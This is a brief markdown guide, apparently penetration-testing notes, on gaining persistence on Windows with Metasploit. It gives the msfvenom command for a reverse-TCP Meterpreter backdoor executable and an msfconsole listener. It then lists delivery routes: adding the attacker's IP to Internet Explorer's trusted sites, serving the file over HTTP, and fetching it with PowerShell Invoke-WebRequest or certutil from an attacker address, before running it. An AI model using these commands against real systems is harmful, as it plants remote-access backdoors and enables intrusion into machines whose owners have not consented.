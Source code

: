 # Persistence with Metasploit

## msfvenom backdoor
You can use Metasploit's msfvenom payload generator to create a .exe containing a backdoor for your IP and LPORT.

1. Create the payload using:
	
	msfvenom -p windows/meterpreter/reverse_tcp <LHOST> <LPORT> -f exe > backdoor.exe

2. Create a metasploit listener (or nc if you prefer) using:

	msfconsole -q

### In-Browser HTTP Delivery

1. Configure your machine as a trusted website:

	1. On the target machine, go to internet explorer and choose "internet options".
	2. Click on the "Security" tab, select "Trusted Sites" and then click on the "Sites" button. Fill the "Add this website to the zone" field with your IP address and click the "Add" button.
	3. After adding your IP to the trusted websites you can close that tab, and then click OK.

2. Using a python simple HTTP server deliver the backdoor to the system that you previously logged into

3. Download and run the backdoor 

### Powershell HTTP Delivery

1. Another delivery method would be using Powershell. Open a Powershell window and download the backdoor using the following command: 

	Invoke-WebRequest http://10.x.x.x/backdoor.exe

### Powershell CertUtil Delivery

1. You can use certutil to download the backdoor. You can use certutil from both windows command line and Powershell commandline. The command to download the file is: 

	certutil -urlcache -split -f http://10.x.x.x/backdoor.exe

## Executing the backdoor

To execute the backdoor type .\backdoor.exe
